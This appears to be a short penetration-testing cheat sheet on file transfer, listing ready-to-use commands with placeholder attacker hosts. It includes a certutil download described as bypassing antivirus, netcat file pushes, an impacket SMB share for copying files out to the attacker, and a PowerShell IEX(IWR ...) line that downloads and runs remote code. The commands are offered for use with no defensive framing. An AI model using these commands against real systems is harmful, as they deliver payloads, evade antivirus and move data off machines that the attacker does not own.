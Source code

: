 # File Transfer

### Certutil  
`certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>` - Transfer files bypass antivirus

### Netcat
`nc -lnvp <LPORT> < <FILE>`  
`nc <RHOST> <RPORT> > <FILE>`

### Impacket
`sudo impacket-smbserver <SHARE> ./`  
`sudo impacket-smbserver <SHARE> . -smb2support`  
`copy * \\<LHOST>\<SHARE>`

### PowerShell
```powershell
iwr <LHOST>/<FILE> -o <FILE>
IEX(IWR http://<LHOST>/<FILE>) -UseBasicParsing
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\
```
